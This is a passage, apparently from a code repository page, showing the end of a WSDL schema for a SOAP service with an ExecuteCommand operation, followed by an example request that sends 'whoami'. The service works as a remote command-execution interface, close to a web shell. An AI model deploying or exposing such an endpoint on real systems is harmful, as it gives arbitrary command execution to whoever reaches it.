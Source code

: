 ```xml
						<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
					</s:sequence>
				</s:complexType>
			</s:element>
			<s:element name="ExecuteCommandRequest">
				<s:complexType>
					<s:sequence>
						<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
					</s:sequence>
				</s:complexType>
			</s:element>
			<s:element name="ExecuteCommandResponse">
				<s:complexType>
					<s:sequence>
						<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
					</s:sequence>
				</s:complexType>
			</s:element>
		</s:schema>


</wsdl:types>
```






## Example of soap request for this service 
```soap
<?xml version="1.0" encoding="utf-8"?>

<soap:Envelope
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <ExecuteCommandRequest xmlns="http://tempuri.org/">
            <cmd>whoami</cmd>
        </ExecuteCommandRequest>
    </soap:Body>
</soap:Envelope> 
```
